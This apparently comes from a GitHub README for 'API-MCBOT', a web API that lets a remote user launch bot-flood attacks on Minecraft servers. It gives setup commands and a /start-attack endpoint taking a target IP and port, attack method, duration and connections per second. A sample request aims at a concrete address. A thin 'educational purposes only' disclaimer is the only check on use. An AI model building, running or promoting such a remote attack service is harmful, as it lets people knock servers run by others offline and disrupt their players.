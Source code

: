 # API-MCBOT

This is an API for MCBOT that allows remote request control for launching Minecraft bot attacks.

## Features
- Start bot-based attacks on Minecraft servers remotely.
- Secure API with an API key.
- Logging of all attack requests.
- Supports multiple attack methods.

## Installation

1. Clone the repository:
   ```sh
   git clone https://github.com/your-repo/api-mcbot.git
   cd api-mcbot
   ```

2. Install dependencies:
   ```sh
   pip install -r requirements.txt
   ```

3. Run the API server:
   ```sh
   uvicorn main:app --host 0.0.0.0 --port 8000 --reload
   ```

## API Usage

### Endpoint: Start Attack
**URL:** `/start-attack`  
**Method:** `POST`  
**Content-Type:** `application/json`

#### Request Body:
```json
{
  "ip_port": "36.90.48.40:25577",
  "protocol": 47,
  "method": "join",
  "seconds": 60,
  "target_cps": 1000,
  "api_key": "your_secret_api_key"
}
```

#### Response Example:
```json
{
  "status": "Attack started",
  "details": {
    "ip_port": "36.90.48.40:25577",
    "protocol": 47,
    "method": "join",
    "seconds": 60,
    "target_cps": 1000,
    "api_key": "your_secret_api_key"
  }
}
```

## Security
- The API requires a valid API key to prevent unauthorized usage.
- Make sure to keep your API key private.

## Logs
All attack requests are logged in `attack.log` for monitoring.

## Disclaimer
This tool is intended for **educational purposes only** or for **testing your own server**. Misuse of this API for unauthorized attacks is strictly prohibited.

## License
MIT License

